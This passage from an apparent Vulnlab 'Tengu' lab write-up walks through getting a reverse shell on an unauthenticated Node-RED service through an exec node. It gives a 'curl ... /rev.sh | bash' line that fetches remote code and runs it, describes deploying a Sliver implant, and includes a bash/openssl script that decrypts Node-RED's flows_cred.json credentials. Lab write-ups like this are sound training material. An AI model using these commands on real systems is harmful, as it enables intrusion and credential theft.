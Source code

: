 * Create a timestamp node and attach an exec block to it.
* Listen for any requests through a web socket
* Execute the exec block and catch the web socket request after it is triggered.
* Provide a terminal UI that allows us to interact with the reverse shell when it is generated.

The only requirement we need to provide the proof-of-concept with is the URL to the web service (since there is no authentication required on our behalf).

![](/images/vulnlab/tengu-vl/e.jpg)

The socket that opens up for us seems to have some odd behavior, so I decided to set up a simple reverse shell and use `curl http:(IP):(PORT)/rev.sh | bash` to this machine to execute (I used [revshells](https://www.revshells.com/) for `rev.sh` which just as a bash one-liner). You can do what you'd like, however this seemed to work for me - which afterwards I stood up a [Sliver](https://github.com/BishopFox/sliver) server and executed an implant which would provide me with a Sliver session on the remote host.

(Note that the file named `tengu` is my sliver implant)

# NODERED$ Host Reconnaissance

![](/images/vulnlab/tengu-vl/f.jpg)

So this user seems to have their own home directory, however I noticed that there is no user flag in their home folder. This means we'll need to escalate our privileges to the next user in order to do this.

I immediately started to look into the `.node-red` directory, as it seems to be the only unusual file in the users home folder. This directory housed a file that we can use to potentially escalate privileges - `flows_cred.json`.

# Decrypting Flow Creds

There is a hash in `flows_cred.json` that is unrecognized by tools like `hashcat` and `JTR`, so we'll need to decrypt them in some way. Doing some research into this file led me to discover that there is a key for this hash located within `.config.runtime.json` (I used [this article](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/) as reference for how to decrypt it). Essentially the key within the config file is hashed with SHA256 and is passed into the `decryptCredentials()` function, to which the key is then used to alter the first 32 characters of the hash.

The proof-of-concept provided in the article decrypts the hash using `openssl` and reconverts the first 32 characters that have been altered by the respective function. I did some altering to the proof-of-concept that it provided, and ran it locally as the `jq` dependency was not available on the remote host. (All credit for the below code goes to HugoPoi in their article and for the development of the code.)

```
└─$ cat dec_flow_creds.sh      
#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1.config.runtime.json | sha256sum | cut -c 1-64`
```
